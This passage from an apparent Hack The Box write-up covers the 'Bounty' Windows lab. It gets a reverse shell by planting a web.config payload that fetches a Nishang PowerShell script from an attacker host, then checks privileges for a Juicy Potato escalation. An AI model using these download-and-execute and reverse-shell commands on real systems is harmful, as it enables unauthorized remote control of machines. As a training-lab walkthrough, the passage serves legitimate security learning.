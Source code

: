 
Okay now let's upload a reverse shell script (via [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)) and execute it from the web server:

```bash
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "" >> shell.ps1 
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 1234" >> shell.ps1 
```

- Run a listener with `rlwrap nc -lnvp 1234` as well as a web server via `python3 -m http.server 80`.

- Replace the `Set cmd` variable in the `web.config` file by this one:

```xml
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell.ps1')")
```

Upload the new `web.config` file and open it from your web browser / or by using `curl` and we got a shell:

![Desktop View](/assets/img/htb/machines/windows/easy/bounty/reverse_shell.png)

## Privesc

If we take a look at our privileges, we can see that `SeImpersonatePrivilege` is enabled so we probably can run [**Juicy Potato**](https://github.com/ohpe/juicy-potato) exploit:

```cmd
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

